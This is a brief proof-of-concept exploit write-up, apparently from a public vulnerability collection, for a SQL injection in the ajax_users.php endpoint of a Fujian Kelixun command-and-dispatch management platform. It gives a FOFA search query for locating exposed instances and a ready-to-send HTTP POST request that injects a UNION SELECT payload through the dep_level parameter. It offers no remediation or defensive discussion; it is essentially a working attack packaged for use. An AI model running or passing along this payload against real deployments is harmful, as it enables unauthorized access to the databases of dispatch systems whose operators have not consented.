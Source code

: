 ## 福建科立讯通信指挥调度管理平台ajax_users.php存在SQL注入漏洞

## fofa
```
body="app/structure/departments.php"||app="指挥调度管理平台"
```

## poc
```
POST /app/ext/ajax_users.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Content-Type: application/x-www-form-urlencoded
 
dep_level=1') UNION ALL SELECT NULL,CONCAT(0x7e,md5(1),0x7e),NULL,NULL,NULL-- -
```
